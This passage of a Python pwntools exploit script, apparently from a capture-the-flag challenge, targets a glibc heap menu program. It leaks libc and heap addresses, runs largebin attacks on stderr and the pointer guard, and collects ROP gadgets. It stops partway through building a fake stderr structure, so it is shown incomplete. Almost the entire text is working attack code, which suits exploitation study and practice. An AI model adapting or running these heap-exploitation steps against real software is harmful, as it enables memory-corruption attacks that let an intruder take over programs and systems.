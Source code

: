 ```python
			add(3,0x440)
			add(5,0x430)#(7)(8)->pointer guard
			add(6,0x420)
			delet(0)
			delet(2)
			show(0)
			sendit()

			libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b"\x00"))-0x1f2cc0
			stderr_addr = libc_base + libc.sym['stderr']
			fixed_heap_fdbk = libc_base + 0x1f30c0
			setcontex61 = libc_base + 0x50bfd
			point_guard = libc_base + tls_offset + 0x30
			log.success("libc_base = {}".format(hex(libc_base)))
			log.success("stderr = {}".format(hex(stderr_addr)))
			log.success("setcontex+61 = {}".format(hex(setcontex61)))
			log.success("point_guard = {}".format(hex(point_guard)))
			add(4,0x410)
			edit(2,16,cyclic(16))
			show(2)
			sendit()

			p.recvuntil("daaa")
			heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x880
			log.success("heap0_base = {}".format(hex(heap_base)))

			#attack stderr
			payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(stderr_addr-0x20)
			edit(2,32,payload)
			delet(5)
			sendit()
			#attack point_guart
			add(7,0x430)
			payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(point_guard-0x20)
			edit(2,32,payload)
			delet(7)
			sendit()
			#largbin fix
			payload = p64(heap_base+0x1120)+p64(libc_base+0x1f30c0)+p64(heap_base+0x1120)*2
			edit(2,32,payload)
			payload = p64(libc_base+0x1f30c0)+p64(heap_base+0x880)*3
			edit(7,32,payload)
			sendit()
			#prepare assert
			add(8,0x430)
			delet(6)
			add(9,0x440)
			add(10,0x410)
			edit(6,0x420,cyclic(0x418)+p64(0x10))
			sendit()

			gadget = libc_base + 0x0000000000146020
			#mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
			ret = libc_base + 0x000000000002d446
			pop_rax = libc_base + 0x00000000000446c0
			pop_rdi = libc_base + 0x000000000002daa2
			pop_rsi = libc_base + 0x0000000000037c0a
			syscall = libc_base + 0x00000000000883b6


			#fake stderr
			payload = p64(0)*3
			payload += p64(0xffffffffffffffff)
```